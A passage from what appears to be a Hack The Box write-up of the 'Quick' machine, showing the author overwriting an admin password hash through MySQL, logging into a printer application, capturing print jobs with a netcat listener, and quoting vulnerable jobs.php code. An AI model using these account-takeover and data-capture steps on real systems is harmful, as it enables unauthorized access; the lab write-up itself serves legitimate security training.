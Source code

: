 ```
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```

Since I have access to the database, I can just change the `srvadm` user password to `Quick4cc3$$` by using the same hash as the Elisa user account.

```
mysql> update users set password = 'c6c35ae1f3cb19438e0199cfa72a9d9d' where name='Server Admin';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 1  Changed: 0  Warnings: 0
```

And now I can log in to the printer application page with `srvadm@quick.htb / Quick4cc3$$`:

![](/assets/images/htb-writeup-quick/image-20200425204523370.png)

We can add printers and point to our IP address:

![](/assets/images/htb-writeup-quick/image-20200425204618742.png)

After adding a printer, we can see it in the list.

![](/assets/images/htb-writeup-quick/image-20200425204637736.png)

After starting a netcat listener on port 9100, we can click the printer icon on the right to test connectivity. We see there's a link to add a printer job.

![](/assets/images/htb-writeup-quick/image-20200425204741174.png)

```
listening on [any] 9100 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.186] 34600
```



![](/assets/images/htb-writeup-quick/image-20200425204811791.png)

After adding the job, we get the content on port 9100:

```
listening on [any] 9100 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.186] 34656
TestVA
```

The **jobs.php** file is the code that processes the print jobs. Here's the relevant part that we'll exploit.

```php
[...]
    if(isset($_POST["submit"]))
	{
		$title=$_POST["title"];
		$file = date("Y-m-d_H:i:s");
		file_put_contents("/var/www/jobs/".$file,$_POST["desc"]);
		chmod("/var/www/printer/jobs/".$file,"0777");
		$stmt=$conn->prepare("select ip,port from jobs");
		$stmt->execute();
		$result=$stmt->get_result();
		if($result->num_rows > 0)
		{
			$row=$result->fetch_assoc();
			$ip=$row["ip"];
			$port=$row["port"];
			try
			{
				$connector = new NetworkPrintConnector($ip,$port);
```